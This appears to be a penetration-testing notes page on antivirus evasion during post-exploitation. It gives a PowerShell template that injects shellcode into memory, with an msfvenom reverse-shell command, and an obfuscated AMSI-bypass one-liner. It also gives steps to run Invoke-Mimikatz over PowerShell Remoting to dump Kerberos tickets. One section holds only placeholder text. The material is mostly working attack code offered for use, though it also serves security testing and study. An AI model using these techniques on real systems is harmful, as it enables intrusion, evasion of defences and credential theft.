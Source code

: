 ```yaml
---
title: AV Evasion
category: Post Exploitation
order: 1
---
```


A basic template script that performs in-memory injection:

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
# msfvenom -p windows/shell_reverse_tcp LHOST=<ip_addr> LPORT=<port> -f powershell
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Another way to bypass AV is using Shellter

![](/hackingnotes/images/shellter.png)


# String Replacemnt

dfd


# AMSI bypass

AMSI bypass method to execute powershell scripts such as `Invoke-Mimikatz.ps1` with `PowerShell Remote`.

First we need to create a session on the target machine.

```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess
```
Execute the following payload and exit the session.

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
Import the script remotely with `PowerShell Remote`:

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
```
Enter in the session again and execute the malicious script.

```powershell
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"sekurlsa::tickets'
```

> **Note**: More bypasses are available on the following resource:
>
> https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560